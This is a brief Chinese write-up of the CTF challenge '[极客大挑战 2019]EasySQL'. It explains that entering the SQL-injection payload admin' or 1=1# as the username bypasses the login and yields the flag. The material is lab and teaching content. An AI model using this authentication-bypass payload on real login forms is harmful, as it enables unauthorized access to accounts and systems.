 # [极客大挑战 2019]EasySQL

## 知识点

`sql注入`

## 解题

![EasySQL Image 1](./img/Easy-1.png)

在`用户名`处尝试万能密码

```sql
admin' or 1=1#
```

即可拿到`flag`
